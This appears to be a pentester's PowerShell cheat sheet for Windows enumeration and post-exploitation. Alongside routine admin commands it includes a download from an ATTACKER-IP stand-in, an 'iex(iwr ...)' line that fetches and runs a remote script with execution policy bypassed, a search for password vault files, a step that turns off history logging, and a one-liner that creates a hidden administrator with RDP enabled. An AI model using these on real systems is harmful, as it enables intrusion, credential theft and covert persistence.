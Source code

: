 Find a file in the system

```powershell
Get-ChildItem -Path C:\ -Include *.EXTENSION -File -Recurse -ErrorAction SilentlyContinue
```

Filter for a specific extension of a file in the Administrator folder

```powershell
Get-ChildItem -Path C:\Users\Administrator\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.kdbx,*.exe,*.png,*.jpg,*.bin,*.zip,*.bak*,*.md -File -Recurse -ErrorAction SilentlyContinue
```

Find groups of the user Administrator

```powershell
net user Administrator
```

Run a user with another user's identity

```powershell
runas /user:Administrator cmd
```

Find identity of the current user

```powershell
whoami
```

Display the groups of the current user

```powershell
whoami /groups
```

Display the user privileges

```powershell
whoami /priv
```

Get a list of all local users

```powershell
Get-LocalUser
```

Get a list of all local groups

```powershell
Get-LocalGroup
```

Get the list of user for a group

```powershell
Get-LocalGroupMember <GROUPNAME>
```

Gather OS info, CPU info, RAM, BIOS version etc...

```powershell
systeminfo
```

Gather network information such as IP, DNS servers, DHCP info etc...

```powershell
ipconfig /all
```

Display routing table

```powershell
route print
```

List active network connection (**-a** for active TCP connections/UDP ports, **-n** for no name resolution, **-o** for displaying process ID)

```powershell
netstat -ano
```

Get informations of installed applications and filter for useful informations. For 32 bit application we use

```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname 
```

And for 64 bit applications

```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Get the list of running processes

```powershell
Get-Process
```

Get powershell history

```powershell
Get-History
```

If it is used the `Clear-History` command we could retrive the history with `PSReadline`

```powershell
(Get-PSReadlineOption).HistorySavePath
```

In order to prevent also that this history is saved, we must clear the history with

```powershell
Set-PSReadlineOption, -HistorySaveStyle, SaveNothing
```

Run a ps script from RAM

```powershell
iwr -uri http://<ATTACKER-IP>/winPEASx64.exe -Outfile winPEAS.exe
```

or

```powershell
powershell -ep bypass -c "iex(iwr -uri <IP>/script.ps1 -usebasicparsing)"
```

Get a list of the **running** Windows Services

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Show user permissions on a file

```powershell
icacls "C:\path\to\file.exe"
```

Start or stop a service

```powershell
net stop apache2
net start apache2
```

Print all files in a directory

```powershell
Get-ChildItem -Path "C:\Users\diana\Documents" | ForEach-Object { Write-Host "Contents of $($_.Name):"; Get-Content $_.FullName; Write-Host "-------------------------" }
```

Show listening TCP ports

```powershell
netstat -anp TCP | find "<PORT>"
```

Get the list of the domain computers

```powershell
 net view
```

View the list of shares in a domain SMB machine

```powershell
 net view \\<COMPUTER-NAME>
```

Recursively copy folder A in folder B

```powershell
Copy-Item C:\path\to\A H:\B -Recurse -Force
```

[Crazywifi's oneliner](https://github.com/crazywifi/Enable-RDP-One-Liner-CMD) for adding user to RDP

```powershell
net user /add (Username) (Password) && net localgroup administrators (Username) /add & net localgroup "Remote Desktop Users" (Username) /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v (Username) /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto
```

Connect via RDP to a machine using password and specific resolution

```powershell
xfreerdp /u:USER /p:'PASSWORD' /v:IP /size:1920x1080
```